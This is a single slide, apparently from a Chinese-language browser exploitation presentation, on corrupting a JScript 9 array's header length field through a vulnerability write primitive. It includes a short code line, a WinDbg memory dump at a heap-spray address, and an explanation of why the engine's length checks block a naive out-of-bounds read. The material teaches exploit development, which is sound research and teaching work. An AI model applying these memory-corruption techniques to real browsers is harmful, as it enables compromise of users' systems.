

# 修改 JScript 9 数组数据头部长度域
writeByVul(0x0d0d0018 , 0x30000000);

0:004> dc 0d0d0010-10 l 4*3
0d0d0000  00000000 0007fff0 00000000 00000000  ................
0d0d0010  00000000 0001fff8 30000000 00000000  ...........0....
0d0d0020  11111111 11111111 11111111 11111111  ................
如果仅仅增加 数组数据头部长度域的值，在进行越界读取时会失败。因为在读取数组成员时 JScript 9 会检查数组数据头部长度域和另外两处长度是否匹配。
var outofbounds = intArr[0x40000]; // failure